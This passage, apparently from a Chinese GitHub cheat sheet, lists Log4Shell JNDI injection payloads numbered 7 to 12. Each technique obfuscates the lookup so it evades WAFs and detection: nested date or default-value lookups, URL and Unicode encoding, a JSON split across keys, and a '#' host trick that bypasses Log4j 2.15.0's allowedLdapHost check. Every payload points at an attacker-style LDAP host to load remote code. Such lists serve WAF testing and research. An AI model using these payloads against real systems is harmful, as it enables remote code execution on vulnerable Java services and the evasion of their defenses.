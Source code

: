 

#### 7.日期型

```
${${date:'j'}${date:'n'}${date:'d'}${date:'i'}:${date:'l'}${date:'d' }${date:'a'}${date:'p'}://somesitehackerofhell.com/z}
```

Java 日期格式会将 'YYYY' 转换为类似2022这种日期型格式，也会将 'j' 转换为 j



#### 8.HTML URL编码

将字符替换为：

- } : %7D
- { : %7B
- $ : %24



#### 9.不存在的lookup

```
${${what:ever:-j}${some:thing:-n}${other:thing:-d}${and:last:-i}:ldap://somesitehackerofhell.com/z}
```

随便什么，只要键值不存在



#### 10.多态（JSON REST API 请求）

```json
{
    "one-${jnd${a":"a:-i}:ld${",
    "two":"o:-a}p://somesitehackerofhell.com/z}
}
```

单独的这些键和值并不代表攻击。但它们加在一起就是攻击，由于 JSON 解析器，这种攻击对检测系统是透明的。[详细](https://d0znpp.medium.com/bypassing-ngfw-wafs-using-data-format-obfuscations-188351ea9e73)

#### 11. Unicode 字符（JSON REST API 请求）

```
${\u006a\u006e\u0064\u0069:ldap://somesitehackerofhell.com/z}
```

将一些字符转换为 unicode 即可



#### 12.使用 # （log4j 2.15版本）

```
${jndi:ldap://127.0.0.1#somesitehackerofhell.com/z}
```

在 Log4J 2.15.0 中绕过 allowedLdapHost 和 allowedClasses 检查。 java.net.URI getHost() 方法返回 # 之前的值作为真实主机。但是 JNDI/LDAP 解析器将解析为尝试连接到恶意 LDAP 服务器的完整主机名字符串。[详细](https://twitter.com/marcioalm/status/1471742744347348997)
